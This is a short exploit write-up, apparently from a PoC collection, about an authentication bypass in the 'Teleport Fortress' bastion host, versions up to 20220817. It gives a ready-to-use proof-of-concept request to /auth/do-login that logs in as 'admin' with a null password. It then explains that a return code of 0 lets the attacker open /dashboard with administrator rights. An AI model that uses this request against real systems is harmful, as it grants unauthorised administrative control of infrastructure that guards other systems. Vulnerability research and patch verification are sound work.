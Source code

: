 # Teleport Fortress do-login Any user login vulnerability

## Vulnerability Description

Teleport Fortress has a login vulnerability for any user. The attacker can log in to the Fortress to obtain other system permissions by constructing a special request package.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Teleport Version <= 20220817</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1660720653270-fcd22c8e-0df1-42ea-aa02-2c94e0770e76-20220823130937164.png)

Verify POC, captcha parameter is the verification code

```php
POST /auth/do-login

args={"type":2,"username":"admin","password":null,"captcha":"ykex","oath":"","remember":false}
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1661087828041-1bf5d666-f5fd-4d69-9099-465b3dd492f2-20220823130936374.png)

Returning code 0 means success, and then access /dashboard to obtain administrator permissions

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1661087872154-ba6ae117-5a99-43f4-919f-1b22f403ab37-20220823130936385.png)